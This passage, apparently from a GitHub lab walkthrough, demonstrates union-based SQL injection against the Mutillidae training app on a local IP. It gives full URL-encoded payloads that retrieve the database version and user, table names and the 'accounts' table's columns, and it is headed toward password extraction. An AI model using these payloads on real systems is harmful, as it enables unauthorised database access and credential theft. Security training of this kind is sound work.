 
![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/b82fd7cc-2952-4be6-85f2-c88b2a1d6e74)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/35232704-922a-42d2-8f04-08aab1810ea5)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/07374d0c-de05-4446-ae7f-2c0996624bfb)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/4080d1f4-dc63-4760-b821-d8e152172ee5)

The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/4c6cf630-1685-4937-b2ca-5c42a4b956ec)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
